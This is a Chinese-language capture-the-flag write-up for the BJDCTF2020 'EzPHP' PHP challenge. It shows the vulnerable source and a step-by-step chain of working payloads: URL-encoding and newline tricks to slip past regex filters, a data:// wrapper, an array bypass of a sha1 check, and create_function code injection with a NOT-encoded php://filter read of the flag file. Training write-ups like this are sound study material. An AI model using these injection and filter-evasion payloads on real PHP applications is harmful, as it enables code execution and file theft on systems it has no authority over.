







# [BJDCTF2020]EzPHP



## 知识点

- base32解码
- url编码绕过`$_SERVER['QUERY_STRING']`
- %0a绕过正则匹配的字符串
- `POST`传参优先于`GET`传参绕过`$_REQUEST`绕过
- `data伪协议`绕过`file_get_contents`函数
- 数组绕过`sha1()`函数
- create_function()代码注入

## 解题



打开网页源代码，看到了这样的注释，base32解码，得到1nD3x.php



访问拿到源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if ( preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

### 0x01 绕过$_SERVER['QUERY_STRING']

```php
if($_SERVER) { 
    if ( preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}
```

`$_SERVER`函数中`QUERY_STRING`和`REQUEST_URI`区别

```php
1，http://localhost/aaa/ (打开aaa中的index.php)
结果：
$_SERVER['QUERY_STRING'] = "";
$_SERVER['REQUEST_URI']  = "/aaa/";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

2，http://localhost/aaa/?p=222 (附带查询)
结果：
$_SERVER['QUERY_STRING'] = "p=222";
$_SERVER['REQUEST_URI']  = "/aaa/?p=222";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

3，http://localhost/aaa/index.php?p=222&q=333
结果：
$_SERVER['QUERY_STRING'] = "p=222&q=333";
$_SERVER['REQUEST_URI']  = "/aaa/index.php?p=222&q=333";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

由实例可知：
$_SERVER["QUERY_STRING"] 获取查询 语句，实例中可知，获取的是?后面的值
$_SERVER["REQUEST_URI"]  获取 http://localhost 后面的值，包括/
$_SERVER["SCRIPT_NAME"]  获取当前脚本的路径，如：index.php
$_SERVER["PHP_SELF"]     当前正在执行脚本的文件名
```

`$_SERVER['QUERY_STRING']`不会进行urldecode，`$_GET[]`会，可以用url编码绕过


### 0x02 绕过正则匹配的字符串

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');
```

`preg_match('/^$')`用换行符%0a绕过即可


### 0x03 $_REQUEST绕过

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

`$_REQUEST`绕过，`$_REQUEST`在同时接受GET和POST参数时，POST优先级更高


### 0x04 file_get_contents函数绕过

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

`file_get_contents`函数，用`data`伪协议绕过	`data://text/plain,debu_debu_aqua`


### 0x05 sha1绕过

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

sha1()函数无法处理数组，`$shana`和`$passwd`都是数组都是`false`

payload：`?file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute &shana[]=1&passwd[]=2`

url编码：`?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2`

post：`file=1&debu=1`




### 0x06 create_function()代码注入

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

```php
$code('', $arg); 
```

`$code`是create_function,因此这个匿名函数可以是这样：

```php
function y0lo(){
    $arg;
}
```

这里`$arg`是可控点，如果传入`}var_dump(get_defined_vars);//`

就会变成

```php
function y0lo(){
    }var_dump(get_defined_vars);//}
```

payload：`flag['code']=create_function&flag['arg']=}var_dump(get_defined_vars);/* `

url编码：`%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());// `



flag并不在这个文件里，而是在`rea1fl4g.php`

- 过滤了 include 还能用 require

- 过滤了引号，可以使用那些参数可以不加引号的函数，require() 代替 require
  " "
- 过滤了 flag，可以 base64 编码。其他过滤的不用便是

利用php伪协议`php:*//filter/convert.base64-encode/resource=rea1fl4g.php* `

然后取反绕过正则

```php
<?php

$s = 'php://filter/convert.base64-encode/resource=rea1fl4g.php';
echo urlencode(~$s);
?>
```


payload：`}require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//`



